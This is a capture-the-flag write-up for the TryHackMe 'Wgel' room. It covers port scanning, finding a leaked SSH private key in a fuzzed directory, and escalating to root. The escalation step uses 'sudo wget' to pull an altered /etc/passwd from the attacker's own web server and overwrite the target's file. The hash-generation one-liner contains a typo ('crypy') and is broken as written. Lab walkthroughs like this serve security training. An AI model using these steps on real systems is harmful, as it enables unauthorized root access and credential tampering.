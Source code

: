 ```yaml
---
parent: "[[CTFs - THM]]"
---
```

```bash
# PLATFORM          . THM
# CTF NAME          . Wgel
# DESCRIPTION       . Can you exfiltrate the root flag?
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/wgelctf
```

```
sudo nmap -sSVC -T5 10.10.28.223 -p- -oN wgel
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94961b66801b7648682d14b59a01aaaa (RSA)
|   256 18f710cc5f40f6cf92f86916e248f438 (ECDSA)
|_  256 b90b972e459bf32a4b11c7831033e0ce (ED25519)

80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- After wandering around the webpage - which is the default apache page - we find the following comment in the source code

```
 <!-- Jessie don't forget to udate the webiste -->
```

- So we got one potential username. After fuzzing, we find the `/sitemap` directory which seems to contain the main web app.

- There wasn't anything useful around here, just a web template.

- I spent some time trying to find vulnerabilities in the contact form, but I had no luck.

- I decided I must've missed something, so I fuzzed the `/sitemap` directory again, this time using another dictionary: `dirb's common.txt`.

- This time, the results were better :) 

```
.ssh                    [Status: 301, Size: 319, Words: 20, Lines: 10]
```

- Inside it's a `id_rsa` private key that will allow us to connect as `jessie` on the box.

```bash
sudo -l

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

- However, we're limited only to `wget` as we don't know jessie's password.

- I tried to escalate privileges using GTFO payload, but surprisingly it didn't work.

- I used `cat /etc/passwd` on the target and copied the output to a local file on my box.

- Then, I've used `python3 -c 'import crypy; print(crypt.crypt("password"))'` to generate a new hash and replaced the `x` for `root` with the hash generated. 

- With the altered passwd file in the directory, I've started a webserver using python: `python3 -m http.server 80`

- Then, from the target, I used `sudo wget http://ip/passwd -O /etc/passwd` ; since we can use it as sudo, why not replace the actual file :) 

- `su root` -> insert password :) 

- First flag is in `/home/jessie/Documents/user_flag.txt`
- Second flag is in `/root/root_flag.txt`.

